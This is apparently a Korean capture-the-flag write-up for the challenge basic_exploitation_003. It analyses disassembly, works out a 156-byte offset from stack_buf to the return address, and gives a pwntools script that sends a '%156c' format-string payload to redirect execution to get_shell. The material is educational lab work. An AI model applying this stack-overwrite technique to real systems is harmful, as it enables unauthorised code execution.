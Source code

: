 ```armasm
0x080486af <+51>:    push   0x80
0x080486b4 <+56>:    push   DWORD PTR [ebp-0x8]
0x080486b7 <+59>:    push   0x0 
0x080486b9 <+61>:    call   0x8048450 <read@plt> #Break Point
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/203489061-40f8b369-37a9-40d5-964a-f8c7aa130f6b.jpg" width = 280>
</p>

[ebp-0x8]에 저장된 값을 보면 입력 값이 저장되는 것이 아닌 `heap_buf`의 주소를 참조하고, 해당 주소를 들어가면 입력 값이 저장되어 있는 것을 알 수 있다.

```armasm
0x080486d3 <+87>:    lea    eax,[ebp-0x98]
0x080486d9 <+93>:    push   eax
0x080486da <+94>:    push   0x8048791
0x080486df <+99>:    call   0x8048460 <printf@plt>
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/203489342-b1010171-ddcc-4673-95fe-db3c8e8eeca8.jpg" width = 280>
</p>

`0x08048680 <+4>:     sub    esp,0x94` 분명 0x94를 할당했지만,`sprintf`를 통해서 stack_buf의 위치가 **[ebp-0x98]**에 위치하는 것을 알 수 있다.

그렇다면 우리가 입력한 값이 [ebp-0x98]에 저장되므로, RET까지 얼만큼의 위치를 가지고 있는지 알아야한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/203490484-e0f997da-ace5-4bfd-865a-645d1a67a3f4.jpg" width = 360>
</p>

스택의 상황을 그림으로 그려보면 위와 같다.

즉, **stack_buf**부터 **RET**까지는 총 156byte의 더미가 쌓이게 된다.

```python
from pwn import *

context.log_level = 'debug'

p = process('./basic_exploitation_003')
e = ELF('./basic_exploitation_003')

get_shell = e.symbols['get_shell']

payload = b'%156c' + p32(get_shell)

p.send(payload)
p.interactive()
```